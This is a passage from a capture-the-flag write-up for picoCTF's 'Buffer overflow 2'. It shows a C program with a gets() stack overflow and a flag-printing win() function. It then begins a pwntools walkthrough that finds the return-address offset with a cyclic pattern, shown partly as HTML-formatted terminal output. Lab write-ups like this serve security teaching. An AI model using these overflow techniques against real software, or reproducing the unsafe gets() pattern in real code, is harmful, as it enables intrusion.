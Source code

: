   fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
{% endccb %}

Looking at the `win()` function, we can see that two arguments are required that need to be passed into the function to receive the flag. Two guard clauses lay above the flag print:

{% codeblock lang:c first_line:19 %}
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
{% endcodeblock %}

The goal is simple: call `win(0xCAFEF00D, 0xF00DF00D)`! We'll be doing it the hard way (for a learning experience), in addition to a more advanced easy way. Let's get started.

### I: The Hard Way 🐢

We can apply a lot from what we learned in `Buffer overflow 1`. The first thing we should do is find the offset, which requires no hassle with pwntools helpers! Although we'll get actual number here, I won't include it in the final script for the sake of not leaving out any steps. Simply segfault the process with a cyclic string, read the core dump's fault address (`$eip`) and throw it into `cyclic_find()`:

{% ccb html:true wrapped:true terminal:true %}
<span class="meta prompt_">$ </span>python3 -q
<span class="meta prompt_">>>> </span>from pwn import *
<span class="meta prompt_">>>> </span>elf = context.binary = ELF(&apos;./vuln&apos;)
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;
    Arch:     i386-32-little
    RELRO:    <span style="color:#FEA44C">Partial RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#5EBDAB">NX enabled</span>
    PIE:      <span style="color:#D41919">No PIE (0x8048000)</span>
<span class="meta prompt_">>>> </span>p = process(elf.path)
[<span style="color:#9755B3">x</span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process &apos;/home/kali/ctfs/pico22/buffer-overflow-2/vuln&apos;: pid 2777
<span class="meta prompt_">>>> </span>p.sendline(cyclic(128))
<span class="meta prompt_">>>> </span>p.wait()